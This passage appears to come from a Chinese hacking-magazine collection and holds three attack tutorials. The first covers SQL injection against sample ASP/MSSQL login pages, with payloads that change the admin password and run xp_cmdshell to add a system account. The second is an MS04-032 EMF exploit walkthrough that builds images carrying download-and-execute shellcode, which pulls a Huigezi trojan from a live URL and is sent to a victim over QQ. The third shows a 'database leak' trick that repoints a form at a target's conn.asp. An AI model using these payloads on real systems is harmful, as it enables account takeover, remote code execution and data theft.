此次值 newpass 为：<font color=red><%=request("newpass")%></font><br>
<p>

<%
sql2="update user set pass='"&request("newpass")&"' where id="&request("id")
set rs2=conn.execute(sql2)
%>
<br>
<%
sql3="select * from user"
set rs3=conn.execute(sql3)
Do while not rs3.eof
response.write "数据库修改后帐号："&rs3.Fields("user")
%>
<br>数据库修改后密码：<%=rs3.fields("pass")%><br>
<%rs3.movenext%>
<%loop%>
<br>
<%="执行语句为："&sql2%>

<%
rs.close
set rs=nothing
rs2.close
set rs2=nothing
rs3.close
set rs3=nothing
conn.close
set conn=nothing
%>
```

这两个程序的初衷是为了让用户修改自己的密码。当用户登录之后，程序会自动生成这个“hidden”类型的变量“id”，值也给出了，只是你表面看不到而已。其实这个“hidden”型的数据还是可以改的，只要查看源文件，就可以看到这个“hidden”类型的变量，然后把它的“value”值改成你想要的（比如“2”），再把“form”中的“action”值改成完整的 URL 地址，然后把文件另存为一个 html 文件（图 6）。

然后本地打开这个文件，在新密码中填入你的新密码提交后，“id”号为“2”的用户的密码就被改成你刚才填入的密码（图 7）。



除了“select”、“update”，还有“insert”、“delete”等，用法都大同小异，只是执行后的效果可能不太一样，读者可以触类旁通。



## 三、ASP+SQL 漏洞重现

说完了 ASP+Access 版的，再说说 ASP+MSSQL 版。MSSQL 给数据库提供了更强大的功能，同时这些功能也会被别有用心的人利用。下面一起来看看 sql 给我们增加了哪些功能，先如图 8 建立数据库。

仍然是举例子：

```html
<form action=f.asp method=get>
帐号：009<br>
密码：<input type=text size=80 name=password>
<input type=submit value=submit>
</form>
```



**f.asp**
```asp
<%
strSQLServerName = "127.0.0.1"      ' 服务器名称或地址
strSQLDBUserName = "sa"             ' 数据库帐号
strSQLDBPassword = "123"            ' 数据库密码
strSQLDBName = "bbs"                ' 数据库名称
Set conn = Server.CreateObject("ADODB.Connection")
strCon = "Provider=SQLOLEDB.1;Persist Security Info=False;Server=" & strSQLServerName & ";User ID=" & strSQLDBUserName & ";Password=" & strSQLDBPassword & ";Database=" & strSQLDBName & ";"
conn.open strCon

' 连接 MSSQL 的句子，和 Access 版的差不多
sql1="select * from bbsuser"
set rs1=conn.execute(sql1)
%>
<%do while not rs1.eof%>
<%="id="&rs1.fields("id")%><br>
<%="username="&rs1.fields("username")%><br>
<%="password="&rs1.fields("password")%><br>
<%rs1.movenext%>
<BR>
<%loop%>

<p>

<%
sql2="select * from bbsuser where username='009' and password='"&request("password")&"'"
set rs2=conn.execute(sql2)
%>

<br>
<%if rs2.eof then%>
<font color=blue><%="失败"%></font>
<%else%>
<font color=red><%="成功"%></font>
<%end if%>
<br>

<%="执行的SQL语句是："&sql2%>
<p>
执行后的数据库资料：
<p>
<%
sql3="select * from bbsuser"
set rs3=conn.execute(sql3)
%>
<%do while not rs3.eof%>
<%="id="&rs3.fields("id")%><br>
<%="username="&rs3.fields("username")%><br>
<%="password="&rs3.fields("password")%><br>
<%rs3.movenext%>
<BR>
<%loop%>

<%
rs1.close
rs2.close
rs3.close
set rs1=nothing
set rs2=nothing
set rs3=nothing
conn.close
set conn=nothing
%>
```

如果一个初学者从文章开始看到这里，应该马上可以看出哪句有漏洞了吧？对，仍然是那个 “request("password")” 有问题，用 Access 版的方法同样有效（图 9）。



MSSQL 版的肯定还有不同之处，我们还可以这样利用，“password” 这样提交：`1';update bbsuser set password='009_password' where username='admin'`，这样，叫 “admin” 的这位用户的密码就变成你改的密码了（图 10）。



如果语句比较复杂，引号配对比较困难的话，还可以在后面加上 “--” 符号，把后面的语句注释掉（图 11）。



如果程序屏蔽了空格（`replace(request("password"), " ", "")`），N.E.V.E.R 是这样利用的：

```sql
1';update/**/bbsuser/**/set/**/password='8888888'/**/where/**/username='admin'/**/--
```

并没有空格，道理暂时不知道，我笔记上写的，试了一下，可成功修改密码（图 12）。

MSSQL 还提供了 “xp_cmdshell” 这个强大的扩展存储过程（默认安装，可以删除），我们可以和用 cmd 命令一样，称当前有什么权限就可以执行什么样的命令，现在我们提交这样的变量：

```sql
1';exec master.dbo.xp_cmdshell 'net user hack hack /add'--
```

执行后在系统内添加一个叫 “hack” 的账号（图 13，14）。

## MS04-032之 图形渲染引擎漏洞利用全过程深度体会

### 一、图形渲染引擎漏洞——CAN-2004-0209简介

Windows XP、XP Service Pack 1、Windows Server 2003、Windows 2000 Service Pack 3 和 Windows 2000 Service Pack 4 等系统中，对 Windows 图元文件（WMF）和增强型图元文件（EMF）图像格式进行的渲染存在一个远程代码执行漏洞，利用它可在受影响的系统上执行远程代码。其中，WMF 图像是一种 16 位图元文件格式，可以同时包含矢量信息和位图信息，它非常适合 Windows 操作系统。EMF 图像是一个 32 位格式，其中可以同时包含矢量信息和位图信息。在受影响的系统上呈现 WMF 或 EMF 图像的任何程序，都可能容易受到此攻击。

成功利用此漏洞的攻击者可以完全控制受影响的系统。其中包括：安装程序；查看、更改或删除数据；或者创建拥有完全权限的新帐户等。该漏洞还能用于尝试执行本地权限提升或远程拒绝服务。Windows XP Service Pack 2 不受此安全漏洞的影响。

### 二、可以利用的手段

攻击者无法强制用户打开恶意文件，攻击者通过诱使用户打开特制的文件或者查看包含特制图像的文件夹，以利用此漏洞，也可能通过预览特制图像的 HTML 电子邮件使其打开，还可以直接用 QQ 发给别人运行。另外，在基于 Web 的攻击中，攻击者必须拥有一个 Web 站点，并在上面放置用来利用此漏洞的 Web 页。攻击者没有任何办法强迫用户访问恶意 Web 站点，相反，攻击者必须诱使用户访问该 Web 站点，所采用的方式通常是让用户单击指向某个站点的链接。攻击者可能将特制图像添加到本地文件系统中，或者添加到网络共享中，然后诱使用户预览该文件夹。攻击者可能以本地方式登录到系统，然后，攻击者可以运行一个利用此漏洞的特制程序，从而完全控制受影响的系统。

### 三、攻击实例

在漏洞出现的几天内，笔者一直在关注是否有这个漏洞的利用代码出来，终于被我等到了，今天在安全焦点上找到了利用代码，笔者在 VC 下编译调试成功。具体测试就不多说了，直接看我编制的程序运行的界面（图1）。



```text
Usage:
ms04032 <file> <shellcode> <bindport / url>

Shellcode:
1 - Portbind shellcode
2 - Download & exec shellcode
```

我们看看程序参数。“ms04032”就是我编译成功的程序；“File”是我们要生成的图片名字和格式，格式就是 .emf 后缀了；“shellcode”是我们生成的图片以什么方式溢出，其中“1”对应着 Portbind 参数，“2”对应 URL；“bindport”和“url”是任选的，其中 bindport 是成功利用这个漏洞后让别人打开我们的图片时所发生溢出的端口，溢出后在他机器上监听这个端口，我们用 telnet ip bindport 就可以登录进去；url 是在别人打开图片时指定到一个路径下载木马，或者是别的恶意代码执行地址，当然，你要先把木马放到网上去。



我们看一下生成这两种情况的具体格式，看图2。很好理解，其中“http://demo.77169.org/hgz.exe”是我配置的灰鸽子服务器，让怪狗帮忙放在网上实验的（感谢怪狗！），结合我在前面说的参数，大家都能看懂，这里不再多说。

好了，运行程序后两个 emf 文件就都生成好了（图3）。



看看效果，我把 test.emf 用 QQ 发给土豆，土豆最新版本的瑞星立即显示病毒报告（图4），结果发现病毒 Trojan.Huigezi.w！土豆已经下载了，大家看他的文件名显示。



当然，只有最新版本的杀毒软件才能查到，旧版本的杀毒软件就难说了。要是你不小心看了这样的图片，还有好事吗？说到这里，这个功能就介绍完了，可以成功利用。关于那个直接监听端口的，我就不做实验了，大家可以自己试一试，应该也是可以成功的！漏洞的危害很大，补丁都出来了，希望大家快点打好补丁，以免遭不测！

> （本文所涉及的工具在本期光盘首页的“NEW SHOW”区域有提供，名称为“图形渲染引擎漏洞（MS04-032）”）


## 暴库！挖掘好了吗？——轻松找出数据库

数据库作为一个站点的核心部分，其重要性自然不言而喻，网管们也煞费苦心的把数据库改名、加上特殊符号来增加安全性。但最近一些安全站点的数据库路径纷纷被人找到并下载，也就是最近讨论的很热的“暴库”技术。我和紫幻以及《黑客X档案》的各位朋友也对这门技术进行了研究。虽说研究成果还不是很多，但希望能起一个抛砖引玉的作用。下面我就举两个系统来做实例分析：

### 一、动力文章系统

一般说来，每个站点程序文件中都会有一个连接数据的文件（一般是conn.asp）。当然，这个文件名称和路径并不固定，有的是在站点根目录下，有的则放在专门的文件夹里，通常这个文件夹名为“INC”，文件名为“conn.asp”。如果把这种“暴库”联系起来，通常人们都会想到通过访问这个文件来得到关于数据库的信息，而实际上，我们直接访问这个文件是不会得到想要的信息的，所以就需要结合一些漏洞来达到“暴库”的目的。

首先，我来简单介绍一下这个程序。动力文章系统分为商业SQL版本和免费ACCESS版本，我们这里测试的当然是ACCESS版的。程序的conn.asp文件用于连接数据库，在/INC这个目录下，数据库文件在/Database目录下。连接数据库用的是相对路径：

```asp
db="database/adsfkldfogowerjnokfdslwejhdfsjhk.mdb"
```

动力文章系统的这个数据库路径泄露隐患，应该算是程序员的疏忽而造成的。由于conn.asp这个文件本身存在隐患，导致攻击者获得数据库路径。漏洞发现者：天天（即《黑客X档案》论坛中ID叫“sohu”的那位MM），参与研究者：怪狗、iceyes、sniper（漏洞分析可参考http://www.hackerxfiles.net/bbs/dispbbs.asp?boardID=4&ID=27293）。

开始我们还以为editor.asp这个文件缺乏足够的验证，但后来经过分析，才发现不是editor.asp的问题。天天的那种做法只是利用editor.asp查看服务器返回信息。我们再来演示一下这攻击过程。在IE中打开这个页面，看看这个页面能够起到什么作用（图1）。很显然，这个文件是用于编辑文章内容时用的，虽然没有什么别的权限，但我们可编辑更改HTML页面。点击“源代码”，找到这样一段内容：

```html
<FORM name=Login onsubmit="return CheckForm();" action=Admin_ChkLogin.asp method=post target=_parent>
<TABLE cellSpacing=0 cellPadding=0 width=585 align=center border=0>
```



这是该页面进行身份验证的时候，将内容传递给Admin_ChkLogin.asp这个文件的内容，下面我们要做的就是把它改成conn.asp文件：

```html
<FORM name=Login onsubmit="return CheckForm();" action=http://www.target.com/inc/conn.asp method=post target=_parent>
<TABLE cellSpacing=0 cellPadding=0 width=585 align=center border=0>
```

改好后，点击“预览”，看到什么了？看到了吧！数据库路径出来了（图2）：

